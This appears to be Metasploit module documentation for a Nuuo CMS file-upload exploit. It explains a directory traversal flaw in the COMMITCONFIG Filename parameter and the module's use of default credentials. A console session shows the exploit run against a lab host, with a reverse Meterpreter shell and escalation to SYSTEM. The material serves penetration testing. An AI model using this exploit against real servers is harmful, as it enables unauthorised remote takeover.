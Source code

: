 ## Vulnerable Application

Nuuo CMS Authenticated Arbitrary File Upload

The COMMITCONFIG verb is used by a CMS client to upload and modify the configuration of the CMS Server. An example is below:

```
COMMITCONFIG NUCM/1.0
User-Session-No: <session-number>
Filename: <filename>
FileType: <number>
Content-Lenght: <file-length>

<FILE_DATA>
```

The vulnerability is in the "FileName" parameter, which accepts directory traversal (..\\..\\) characters. Therefore, this function can be abused to overwrite any files in the installation drive of CMS Server.

This vulnerability is exploitable in CMS versions up to and including v2.4.

This module will either use a provided session number (which can be guessed with an auxiliary module) or attempt to login using a provided username and password - it will also try the default credentials if nothing is provided.

[NUUO Central Management Server (CMS): all versions below 2.5](http://d1.nuuo.com/NUUO/CMS/)

 - 1.5.2 OK
 - 2.1.0 OK
 - 2.3.2 OK
 - 2.4.0 OK
 - 2.6.0 FAIL (vuln fixed?)
 - 2.9.0 FAIL
 - 2.10.0 FAIL

## Scenarios

### Testing on Windows 10 Pro x64 running NCS Server 2.4.0

```
msf5 exploit(windows/nuuo/nuuo_cms_fu) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 exploit(windows/nuuo/nuuo_cms_fu) > set verbose true
verbose => true
msf5 exploit(windows/nuuo/nuuo_cms_fu) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] 172.22.222.200:5180 - Backing up LicenseTool.dll to TQzixBdpOiRG
[*] 172.22.222.200:5180 - Uploading payload...
[*] 172.22.222.200:5180 - Sleeping 15 seconds...
[*] 172.22.222.200:5180 - Sending SENDLICFILE request, shell incoming!
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 3 opened (172.22.222.136:4444 -> 172.22.222.200:49674) at 2019-02-19 05:46:51 -0600

meterpreter > 
[!] 172.22.222.200:5180 - Please wait a bit while we clean up
[+] 172.22.222.200:5180 - Successfully restored LicenseTool.dll!
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
[+] 172.22.222.200:5180 - We should have SYSTEM now, enjoy your shell!

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```
